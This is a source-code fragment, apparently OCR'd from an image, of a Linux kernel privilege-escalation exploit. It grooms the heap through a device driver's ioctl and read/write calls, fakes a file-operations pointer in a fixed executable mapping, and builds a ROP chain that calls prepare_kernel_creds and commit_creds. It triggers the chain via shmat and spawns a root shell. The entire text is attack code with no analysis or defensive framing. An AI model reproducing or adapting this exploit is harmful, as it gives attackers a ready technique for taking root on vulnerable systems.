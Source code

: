 ```
    shmid = shmget(IPC_PRIVATE, 1024, IPC_CREAT | 0666);
    printf("%d\n",shmid);
    arg.idx = 3;
    ioctl(fd[0],0,&arg);
    printf("[+] heap prepare OK!\n");


    read(fd[2],readbuf,oversize); //read heap data
    memcpy(buf,readbuf,oversize); 


    read(fd[0],readbuf,192*2); //set llseek point

    map = mmap((void *)0x5a000000,0x1000,PROT_WRITE|PROT_READ | PROT_EXEC, 
MAP_SHARED|MAP_ANONYMOUS|MAP_FIXED, -1, 0);
    int **shm_file;
    shm_file = (int **)(buf+0x194); //fack fop
    *shm_file = (void *)0x5a000000;


    int rop[11];
    rop[0] = 0xc1071395; //xchg eax,esi;ret
    rop[1] = 0xc1431272; //pop eax;ret
    rop[2] = 0; //eax
    rop[3] = prepare_kernel_creds;
    rop[4] = commit_creds;
    rop[5] = 0xc1071395; //xchg eax,esi;ret
    rop[6] = 0xc1020eb1; //xchg eax,esp;ret
    rop[7] = 0;
    rop[8] = 0;
    rop[9] = 0;
    rop[10] = 0xc1380373; //xchg eax,esp;ret 0x100

    //  xchg eax,esp;ret
    //  xchg eax,esi;ret  ;
    //  pop eax;ret;  0xc1431272
    //  perpare_kernel_creds
    //  commit_cred
    //  xchg eax,esi;ret
    //  xchg eax,esp;ret

    memcpy(map,rop,4*30);  //map is fack fop

    memcpy(buf+0x180,rop,4); //after xchg eax,esp . ret
    memcpy(buf+0x280,rop,4*30);//fack  stack
    write(fd[0],buf,oversize);

    printf("[+] heap write done\n");
    printf("[+] read to triggle shellcode\n");  

    ret = (int)shmat(shmid,NULL,0); //triggle

    if(ret!=0)
        printf("[+] OK,ready to get root!\n   press any key\n");
    getchar();
    setresuid(0, 0, 0);
    setresgid(0, 0, 0);
    execl("/bin/bash","/bin/bash",NULL);
    return 0;
}

```
